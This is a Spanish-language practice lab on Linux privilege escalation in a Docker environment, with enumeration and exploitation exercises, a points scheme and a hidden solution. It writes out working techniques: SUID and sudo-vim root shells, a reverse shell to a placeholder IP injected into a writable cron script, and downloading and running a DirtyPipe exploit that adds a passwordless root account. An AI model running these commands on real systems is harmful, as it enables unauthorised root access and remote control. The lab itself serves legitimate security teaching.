

# 🔐 Lab privesc-01: Linux Privilege Escalation


::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulado.

👉 **[Abrir Lab Interactivo](/CyberDefense-Pro-Network/labs-interactive/lab-privesc-01.html)** — Sin Docker, sin configuración. Solo abre y practica.
:::


> Escala de privilegios en un sistema Linux vulnerable usando técnicas reales de pentesting.

## 📊 Diagrama del Escenario

```mermaid
graph TB
    subgraph "🎯 SISTEMA VULNERABLE"
        A[Usuario: lowuser<br/>uid=1000]
        B[SUID Binaries]
        C[Sudo Config]
        D[Cron Jobs]
        E[Capabilities]
        F[Kernel Version]
    end
    
    subgraph "🔓 VECTORES DE ATAQUE"
        G[GTFOBins]
        H[Sudo Abuse]
        I[PATH Manipulation]
        J[cap_setuid]
        K[DirtyPipe]
    end
    
    subgraph "👑 OBJETIVO"
        L[root@vulnerable<br/>uid=0]
    end
    
    A --> B
    A --> C
    A --> D
    A --> E
    A --> F
    
    B --> G
    C --> H
    D --> I
    E --> J
    F --> K
    
    G --> L
    H --> L
    I --> L
    J --> L
    K --> L
    
    style A fill:#ffd93d
    style L fill:#ff6b6b
    style G fill:#6bcb77
    style H fill:#6bcb77
    style I fill:#6bcb77
    style J fill:#6bcb77
    style K fill:#6bcb77
```

## 🎯 Objetivos

- [ ] Identificar al menos 3 vectores de escalada
- [ ] Explotar exitosamente 1 vulnerabilidad
- [ ] Obtener shell root
- [ ] Leer la flag `/root/flag.txt`
- [ ] Documentar cada paso realizado

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 60 minutos |
| **XP en juego** | 300 puntos |
| **Herramientas** | find, sudo, python, gcc |
| **Flags** | 5 (una por técnica) |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/intermedio/privesc-01
docker compose up -d

# Conectarse como lowuser
docker compose exec privesc-lab su - lowuser

# Contraseña: lowuser123
```

## 📋 Fase 1: Enumeración (100 XP)

### Ejercicio 1.1: Información del Sistema (25 XP)

```bash
# Ejecuta estos comandos y responde
whoami
id
uname -a
cat /etc/os-release
```

**Preguntas:**

1. ¿Cuál es tu usuario y grupo actual?
   - `[___]`

2. ¿Qué versión de kernel está ejecutándose?
   - `[___]`

3. ¿Es esta versión vulnerable a DirtyPipe (CVE-2022-0847)?
   - `[Sí/No]`

---

### Ejercicio 1.2: Enumeración de SUID (25 XP)

```bash
# Buscar binarios SUID
find / -perm -4000 -type f 2>/dev/null
```

**Pregunta:** Lista todos los binarios SUID encontrados:

```
1. [___]
2. [___]
3. [___]
4. [___]
5. [___]
```

---

### Ejercicio 1.3: Verificar Sudo (25 XP)

```bash
# Ver permisos sudo
sudo -l
```

**Pregunta:** ¿Qué comandos puedes ejecutar con sudo?
- `[___]`

---

### Ejercicio 1.4: Buscar Cron Jobs (25 XP)

```bash
# Verificar cron jobs del sistema
cat /etc/crontab
ls -la /etc/cron.*
```

**Pregunta:** ¿Qué scripts se ejecutan periódicamente como root?
- `[___]`

## 📋 Fase 2: Explotación (150 XP)

### Ejercicio 2.1: SUID Abuse (50 XP)

Basándote en los SUID encontrados, explota uno usando [GTFOBins](https://gtfobins.github.io/):

```bash
# Ejemplo con python
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Tarea:** Obtener root usando un SUID binary
- [ ] Comando utilizado: `[___]`
- [ ] ¿Funcionó? `[Sí/No]`

---

### Ejercicio 2.2: Sudo Abuse (50 XP)

Si tienes sudo para vim, usa esta técnica:

```bash
sudo vim -c ':!/bin/bash'
```

**Tarea:** Obtener root usando sudo
- [ ] Comando utilizado: `[___]`
- [ ] ¿Funcionó? `[Sí/No]`

---

### Ejercicio 2.3: PATH Manipulation (50 XP)

Si hay un cron job ejecutando un script en directorio escribible:

```bash
# Verificar si el script es modificable
ls -la /opt/backup.sh

# Si es escribible, inyectar reverse shell
echo '#!/bin/bash' > /opt/backup.sh
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' >> /opt/backup.sh
```

**Tarea:** Obtener root usando cron job
- [ ] Comando utilizado: `[___]`
- [ ] ¿Funcionó? `[Sí/No]`

## 📋 Fase 3: Captura de Flags (50 XP)

Una vez seas root, busca las flags:

```bash
# Verificar que eres root
whoami  # Debe mostrar "root"

# Buscar flags
find / -name "flag*.txt" 2>/dev/null
cat /root/flag.txt
```

**Flags a encontrar:**

| Flag | Ubicación | Puntos |
|------|-----------|--------|
| FLAG-1 | `/home/lowuser/.flag1` | 10 |
| FLAG-2 | `/tmp/.hidden/flag2` | 10 |
| FLAG-3 | `/var/backups/flag3` | 10 |
| FLAG-4 | `/opt/flag4` | 10 |
| FLAG-5 | `/root/flag.txt` (final) | 10 |

## 🔍 Flujo de Resolución



## 🏁 Validación

```bash
# Ejecutar validación automática
./scripts/validate.sh

# Verificar flags individuales
./scripts/check-flags.sh
```

## 📝 Criterios de Éxito

| Criterio | Puntos | Estado |
|----------|--------|--------|
| **Fase 1: Enumeración** | | |
| Información del sistema correcta | 25 | ⬜ |
| SUID binaries identificados | 25 | ⬜ |
| Sudo permissions documentadas | 25 | ⬜ |
| Cron jobs encontrados | 25 | ⬜ |
| **Fase 2: Explotación** | | |
| Vector de escalada identificado | 50 | ⬜ |
| Explotación exitosa | 100 | ⬜ |
| **Fase 3: Flags** | | |
| Flags 1-4 encontradas | 40 | ⬜ |
| Flag final (root) | 10 | ⬜ |
| **Total** | **300** | ⬜ |

## 🎓 Técnicas Cubiertas

### 1. SUID/SGID Abuse
```bash
# Identificar
find / -perm -4000 -type f 2>/dev/null

# Explotar (ejemplo con find)
find . -exec /bin/bash -p \; -quit
```

### 2. Sudo Abuse
```bash
# Identificar
sudo -l

# Explotar (ejemplo con vim)
sudo vim -c ':!/bin/bash'
```

### 3. Capabilities
```bash
# Identificar
getcap -r / 2>/dev/null

# Explotar (ejemplo con python)
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### 4. Cron Jobs
```bash
# Identificar
cat /etc/crontab
ls -la /etc/cron.*

# Explotar (PATH manipulation)
echo '#!/bin/bash' > /writable/script.sh
echo 'bash -i >& /dev/tcp/IP/PORT 0>&1' >> /writable/script.sh
```

### 5. Kernel Exploits
```bash
# Identificar
uname -r

# DirtyPipe (CVE-2022-0847)
# Requerido: 5.8 <= kernel < 5.16.11
wget https://github.com/Arinerron/CVE-2022-0847/raw/master/degroot-hairpin/dirtypipe.c
gcc dirtypipe.c -o dirtypipe
./dirtypipe /etc/passwd 1 "root2::0:0::/root:/bin/bash"
```

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### Fase 1: Enumeración

```bash
# 1.1 Información del sistema
whoami  # lowuser
id  # uid=1000(lowuser) gid=1000(lowuser) groups=1000(lowuser)
uname -r  # 5.15.0-generic

# 1.2 SUID Binaries
find / -perm -4000 -type f 2>/dev/null
# /usr/bin/passwd
# /usr/bin/sudo
# /usr/local/bin/backup-manager  ← VULNERABLE

# 1.3 Sudo
sudo -l
# lowuser ALL=(root) NOPASSWD: /usr/bin/vim

# 1.4 Cron
cat /etc/crontab
# * * * * * root /opt/backup.sh
ls -la /opt/backup.sh  # -rwxrwxrwx (world-writable!)
```

### Fase 2: Explotación

**Opción A: Sudo + Vim**
```bash
sudo vim -c ':!/bin/bash'
# Ahora eres root
```

**Opción B: Cron + PATH Manipulation**
```bash
echo '#!/bin/bash' > /opt/backup.sh
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /opt/backup.sh
# Esperar 1 minuto
/tmp/rootbash -p
```

### Fase 3: Flags

```bash
whoami  # root
cat /root/flag.txt  # FLAG{pr1v3sc_c0mpl3t3d}
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
